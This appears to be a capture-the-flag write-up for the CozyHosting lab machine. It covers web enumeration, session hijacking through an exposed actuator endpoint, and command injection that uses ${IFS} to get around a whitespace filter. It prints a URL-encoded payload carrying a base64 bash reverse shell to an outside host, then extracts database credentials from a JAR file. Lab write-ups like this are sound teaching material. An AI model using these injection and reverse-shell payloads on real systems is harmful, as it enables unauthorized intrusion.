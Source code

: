 # Write Up
## Introduction
Before starting to present the way it has been taken to solve CozyHosting machine, I will present an outline with the concepts that will be used to solve challenge:
- Exhaustive enumeration of the website.
- Session Hijacking.
- Command injection.
- Hash cracking with Hascat.
- Abuse of ssh SUID configuration.
## Reconnaisance phase
As usual, reconnaissance phase was the first phase executed due to the fact that a hacker needs to know as much information about his target as possible before starting to exploit posible vulnerabilities.

To do this, you need to add a new line in the ''/etc/hosts'' file, where you define which IP is linked to which domain name. As shown in the following image, if you want to access CozyHosting.htb, you are going to send a request to 10.10.11.230 really:

[![hosts.png](https://i.postimg.cc/x1P6MnhB/hosts.png)](https://postimg.cc/WdhmPL27)

Next, Nmap is used to scan all ports on the server. The tool output is as follows:

[![Nmap.png](https://i.postimg.cc/5yRVx8qq/Nmap.png)](https://postimg.cc/GTGNK8fH)

As shown in the last image, two open ports were discovered exposing two different services:
- Port 22: SSH service.
- Port 80: HTTP service.

Due to the fairly up-to-date version of SSH, it seems that the way to go is to perform a technology scan on port 80.

[![WhatWeb.png](https://i.postimg.cc/prjXB6k4/WhatWeb.png)](https://postimg.cc/649XWzkf)

As you can see, nginx 1.18.0 is running behind, but no important information is displayed. Therefore, the website was accessed to look for some useful information:

[![image.png](https://i.postimg.cc/xqr7KsFs/image.png)](https://postimg.cc/y3PvKTK9)

After searching for information, the only data retrieved is the login panel behind the path "/login". So a search was initiated using Wfuzz to list more paths and resources on the server.

```bash
wfuzz -c -t 200 --hc 404,400 --hh 0 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt http://CozyHosting.htb/FUZZ 
```

The following diagram represents the paths and resources found:

[![diagrama.png](https://i.postimg.cc/fRT8Ft0W/diagrama.png)](https://postimg.cc/svqPG2cb)

After finding these resources on the web, you can test some potential vulnerabilities, for example by bypassing the login panel with a SQLi or Type Juggling, etc. ..... But nothing worked.
If you find yourself in this situation and you have tested all possible vulnerabilities, it is likely that you have not done a thorough reconnaissance.  Therefore, Wfuzz was ran again with another dictionary:

```bash
wfuzz -c -t 200 --hc 404,400 --hh 0 -w /usr/share/SecLists/Discovery/Web-Content/combined_directories.txt http://CozyHosting.htb/FUZZ
```

With that dictionary, another route called "actuator" was found, if you go into it you will find more paths, as shown behind:

[![image.png](https://i.postimg.cc/DfgtjbC0/image.png)](https://postimg.cc/SjnTjjbb)
## Exploitation phase

A session ID can be found in the path "sessions". With this session ID under control it is possible to perform a session hijacking. So it was copied and pasted into the cookie that the website assigned to me.

Now, if you enter the login panel, the website redirects you directly to the administration section:

[![Admin.png](https://i.postimg.cc/90pLFS8T/Admin.png)](https://postimg.cc/XBrfs207)

Within the administration section there is only one function to exploit. Apparently, this function runs a shell command to connect via ssh to other machines, with a private key, to update their installed software. This command might be something like the following:

```bash
ssh -i id_rsa.pem <username>@<hostname>
```

Since the page is running a shell command upon receiving the request, it is likely vulnerable to command execution. Therefore, a payload "; whoami" was injected into both fields. First in the hostname field:

[![Burp2.png](https://i.postimg.cc/QNmwSS1B/Burp2.png)](https://postimg.cc/F1fTHyPm)

As you can see, this injection did not work on the hostname field, so you will probably have to enter a correct hostname. The second field was tested by entering the same payload to see the response:

[![Burp3.png](https://i.postimg.cc/QNky6SGL/Burp3.png)](https://postimg.cc/Th101V3Q)

In this case, another error is reported. As the web page tells us not to use whitespace, an Internal Field Separator was injected to see the response from the web page:

[![Burp4.png](https://i.postimg.cc/k4Mj66wV/Burp4.png)](https://postimg.cc/R38120k9)

The error changed, so the payload was injected and we are informed that the command "whoami@10.10.11.230" does not exist. So, the payload works because I am avoiding the ssh command and the whitespace was interpreted by the shell.
Now, this error can be fixed by injecting a # to comment out the rest of the command that I do not want.

[![image.png](https://i.postimg.cc/kMYbd6bj/image.png)](https://postimg.cc/vD9BrmX9)

The injected command did not return any results. But this doesn't mean that the command injection didn't work, because the web page is probably not showing the response. So why not create a server and inject a request to my server?

[![Burp6.png](https://i.postimg.cc/zfSVV3PR/Burp6.png)](https://postimg.cc/jW2s1qTs)

As you can see, this works so I am injecting shell commands into the server. It is time to create a reverse shell and get access to the server. The payload used was:

```
host=10.10.11.230&username=%3b${IFS}echo${IFS}"YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC4xMC85OTk5IDA%2bJjEK"${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash%3b${IFS}%23
```

The reverse shell was encoded with the base64 algorithm to avoid problems when sending it through a request. And the entire payload was urlencoded for the same reason.

[![Evidencia.png](https://i.postimg.cc/7L8bXSTR/Evidencia.png)](https://postimg.cc/K1fZ8kf7)
## Post-Exploitation phase
### Privilege escalation to Josh

After gaining access to the app user, it's time to do a system recon. A couple of things could be found: 

- A file called cloudhosting-0.0.1.jar.
- And a postrgreSQL running on port 5432.
 
The .jar extension is typical of two types of Java programming language files. On the one hand, a .jar file can be a Java application file, i.e. a program that, as such, can be executed.
On the other hand, a .jar file usually contains a library with several files. The .jar extension is short for Java Archive and usually contains, as the name suggests, several Java files and metadata that are sent synthesised and compressed. In addition to .jar files, this extension can also contain images, audio files or other formats and works similarly to a .zip file.
Because of the last comment there are two possible ways to see the content of that file:

- Unzip the file, for example with 7z.

```bash
7z x cloudhosting-0.0.1.jar
```

- Or use an application like jd-gui, which allows you to see the whole content without decompressing the file.

```bash
jd-gui & 2>/dev/null disown
```

Using jd-gui you can find some credentials for accessing postgreSQL:

[![credentials.png](https://i.postimg.cc/5tjXbr7Q/credentials.png)](https://postimg.cc/5Hd4msMf)

